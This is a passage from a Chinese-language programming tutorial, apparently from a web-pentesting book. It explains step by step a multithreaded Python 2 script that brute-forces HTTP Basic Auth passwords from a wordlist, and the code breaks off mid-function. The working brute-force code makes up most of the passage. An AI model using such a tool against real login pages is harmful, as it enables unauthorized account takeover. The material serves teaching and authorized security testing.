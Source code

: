```py
            user = arg
        elif opt == '-w':
            url = arg
        elif opt == '-f':
            dictio = arg
        elif opt == '-t':
            threads = arg
    try:
        f = open(dictio, "r")
        name = f.readlines()
    except:
        print"Failed opening file: " + dictio + "\n"
        sys.exit()
    launcher_thread(name, threads, user, url)
```

1.  然后，在`launcher_thread`中，我们有一个`while`循环，直到密码数组中没有任何单词为止：

```py
def launcher_thread(names, th, username, url):
    global i
    i = []
    i.append(0)
    while len(names):
        if hit == "1":
            try:
                if i[0] < th:
                    n = names.pop(0)
                    i[0] = i[0] + 1
                    thread = request_performer(n, username, url)
                    thread.start()

            except KeyboardInterrupt:
                print "Brute forcer interrupted by user. Finishing attack.."
                sys.exit()
            thread.join()
        else:
            sys.exit()
    return
```

因此，对于数组中的每个单词，我们都执行`pop`，然后用`n`、`username`和`url`实例化`request_performer`类。

1.  在`request_performer`中，我们为对象定义了一些属性，然后执行 GET 请求：

```py
class request_performer(Thread):
    def __init__(self, name, user, url):
        Thread.__init__(self)
        self.password = name.split("\n")[0]
        self.username = user
        self.url = url
        print "-" + self.password + "-"

    def run(self):
        global hit
        if hit == "1":
            try:
                r = requests.get(self.url, auth=(self.username, self.password))
                if r.status_code == 200:
                    hit = "0"
                    print "[+] Password found - " + colored(self.password, 'green') + " - !!!\r"
                    sys.exit()
                else:
                    print "Not valid " + self.password
                    i[0] = i[0] - 1 # Here we remove one thread from the counter
```
